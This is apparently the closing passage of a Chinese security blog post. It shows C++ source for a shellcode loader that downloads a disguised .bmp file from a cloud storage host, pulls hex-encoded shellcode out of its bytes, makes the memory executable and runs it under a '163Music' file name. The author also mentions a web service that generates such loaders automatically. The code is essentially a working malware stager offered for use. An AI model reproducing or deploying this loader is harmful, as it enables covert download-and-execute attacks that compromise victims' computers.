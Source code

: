 ```
		if (*pStr == 0 || *pStr == 0xFF)
		{
			break;
		}
		szTmp[i] = *pStr;
		pStr += 4;
	}
	//printf_s(szTmp);

	unsigned int char_in_hex;

	unsigned int iterations = strlen(szTmp);


	unsigned int memory_allocation = strlen(szTmp) / 2;

	# 还原shellcode
	for (unsigned int i = 0; i < iterations / 2; i++) {
		sscanf_s(szTmp + 2 * i, "%2X", &char_in_hex);
		szTmp[i] = (char)char_in_hex;
	}


	void* abvc = VirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
	memcpy(abvc, szTmp, memory_allocation);
	DWORD ignore;
	VirtualProtect(abvc, memory_allocation, PAGE_EXECUTE, &ignore);

	(*(void(*)()) abvc)();
	delete pBuffer;
	WinHttpCloseHandle(hRequest);
	WinHttpCloseHandle(hConnect);
	WinHttpCloseHandle(hSession);

}

int main(int argc, char* argv[])
{
	download(L"https://xxxx.oss-cn-beijing.aliyuncs.com:80/xxxxx.bmp", L"./163Music", &dcallback);
}
```

#### 自动化

思路和主要代码都给出来了，动动手就写出来了，这里我把以上功能做成Web在线生成的，采用模板化进行编译方便更新维护，有什么问题欢迎反馈交流。

![img](https://cdn.nlark.com/yuque/0/2020/gif/262397/1597286872411-7930443a-697a-435d-8ba7-f30f2731804d.gif)

### 0x04 参考链接

https://www.cnblogs.com/Matrix_Yao/archive/2009/12/02/1615295.html

https://blog.csdn.net/qq78442761/article/details/54880328

https://github.com/loyalty-fox/idshwk7
